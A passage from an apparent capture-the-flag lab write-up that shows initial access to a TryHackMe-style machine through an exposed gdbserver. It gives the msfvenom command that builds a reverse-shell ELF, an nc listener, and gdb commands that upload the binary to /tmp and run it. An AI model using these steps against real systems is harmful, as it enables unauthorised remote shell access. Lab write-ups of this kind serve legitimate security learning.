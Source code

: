 ### Step 4: Gaining Initial Access via GDBServer

Time to craft a reverse shell. We'll use `msfvenom` to generate a simple ELF binary that will connect back to our machine.

I like to use docker but you can directly download metasploit framework from your package manager as well.

```bash
❯ docker run --rm -it -v $PWD:/data parrotsec/metasploit
```

Inside the `msfconsole`:

```bash
msf6 > msfvenom -p linux/x64/shell_reverse_tcp LHOST=YOUR_IP LPORT=4444 PrependFork=true -f elf -o binary.elf
[*] exec: msfvenom -p linux/x64/shell_reverse_tcp LHOST=10.21.206.128 LPORT=4444 PrependFork=true -f elf -o binary.elf
...
Payload size: 106 bytes
Final size of elf file: 226 bytes
Saved as: /data/binary.elf
```

Now that we have our `binary.elf`, we can use `gdb` to connect to the remote server, upload our binary, and run it.

First, set up a listener on your local machine to catch the reverse shell:

```bash
❯ nc -lvnp 4444
```

Next, connect to the `gdbserver`:

```bash
❯ gdb
```

Inside the `gdb` prompt, we'll perform the following magic trick:

```gdb
# Connect to the remote gdbserver
(gdb) target extended-remote airplane.thm:6048
Remote debugging using airplane.thm:6048

# Upload our malicious binary to the target's /tmp directory
(gdb) remote put binary.elf /tmp/binary.elf
Successfully sent file "binary.elf".

# Tell gdb to execute our file instead of the original 'airplane' binary
(gdb) set remote exec-file /tmp/binary.elf

# Run the program!
(gdb) r
Starting program: /tmp/binary.elf
[Detaching after fork from child process 46409]
[Inferior 1 (process 46408) exited normally]
(gdb)
```
